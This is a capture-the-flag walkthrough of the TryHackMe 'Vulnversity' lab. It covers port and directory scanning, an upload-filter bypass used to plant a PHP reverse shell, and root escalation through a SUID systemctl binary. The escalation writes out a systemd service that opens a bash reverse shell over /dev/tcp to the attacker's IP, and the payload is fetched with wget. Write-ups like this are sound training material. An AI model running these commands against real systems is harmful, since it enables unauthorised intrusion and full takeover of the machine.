 # VulnUniversity

- [Tools](#tools)
- [Deploy the machine](#deploy-the-machine)
- [Reconnaissance](#reconnaissance)
- [Locating directories using Gobuster](#locating-directories-using-gobuster)
- [Privilege Escalation](#privilege-escalation)

Room Link: [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

## Tools 

- [NMap](https://nmap.org/download) 
- [Gobuster](https://github.com/OJ/gobuster) 
- [Burp Intruder](https://portswigger.net/burp) 
- [Burp Proxy Toggle Extension](https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/)

## Deploy the machine 

- Deploy The Machine by clicking Start The Machine
- Download ovpn file and connect to the network using command `sudo openvpn --config username.ovpn`.

## Reconnaissance

- Scan ports of the machine with given command `nmap -sV 10.10.65.81`
Output of the command:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-26 09:55 IST
Nmap scan report for 10.10.135.130
Host is up (0.20s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.77 seconds
```
- Question `how many ports are open?` Answer `6`
- Question `What version of the squid proxy is running on the machine?` Answer `3.5.12`
- Question `How many ports will Nmap scan if the flag -p-400 was used?` Answer `400`
- Question `What is the most likely operating system this machine is running?` Answer `Ubuntu`
- Question `What port is the web server running on?` Answer `3333`
- Question `What is the flag for enabling verbose mode using Nmap?` Answer `-v`

## Locating directories using Gobuster 

   
- Port 3333 is http server, So web interface looks like that http://10.10.65.81:3333
- We can run directory busting tool gobuster as per given command with our own wordlist `gobuster dir -u http://10.10.65.81:3333 -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt`
Output of the command: 

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.65.81:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.65.81:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.65.81:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.65.81:3333/js/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.65.81:3333/fonts/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.65.81:3333/internal/]
Progress: 9932 / 1273834 (0.78%)
```
- Question `What is the directory that has an upload form page?` Answer `/internal/`

## Compromise the Webserver 

- Question `What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.` Answer `.php`
- Run burpsuite as per instruction and user intruder. Use firefox extension, https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/
- Question `Run this attack, what extension is allowed?` Answer `.phtml`
- Now we need to make our shell with given instruction using https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php. Just replace ip to our netcat listening ip (tun0) and file extension to `.phtml`. Use `nc -lvnp 1234` to get shell.
- Now just upload the file and open http://10.10.65.81:3333/internal/uploads/ and click on the shell to get reverse shell.
- Question `What is the name of the user who manages the webserver?` Answer `bill`. Use `ls /home` command to get username.
- Question `What is the user flag?` Answer `********************************` (32 alphanumeric characters). Command used `cat /home/bill/user.txt`

## Privilege Escalation 

- To check suid permission files, we can use `find / -perm /4000 2> /dev/null`.
- Question `On the system, search for all SUID files. Which file stands out?` Answer `/bin/systemctl` Because systemctl don't have suid permission normally.
- Now we can start rooting the server.
- At first I created a file on my machine named ZishanAdThander.service (with my ip, you can user your ip)

```bash
[Unit]
Description=ZishanAdThandar

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.17.102.105/1337 0>&1'

[Install]
WantedBy=multi-user.target
```
- Now started web server on my machine using `python3 -m http.server 7860`
- On the reverse shell, moved to `/tmp` directory using `cd /tmp` command. Then uploaded the file with `wget http://10.17.102.105:7860/ZishanAdThandar.service` command.
- Now we can add the service using `/bin/systemctl enable /tmp/ZishanAdThandar.service` command on reverse shell.
- Started netcat listner on the given port with `nc -lvnp 1337`.
- Now we need can run the command `/bin/systemctl start ZishanAdThandar` to start the service and immediately we will get reverse shell as root on another netcat listner.
- Question `Become root and get the last flag (/root/root.txt)` Answer `********************************` (32 alphanumeric characters). Command used `cat /root/root.txt`

    
Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)




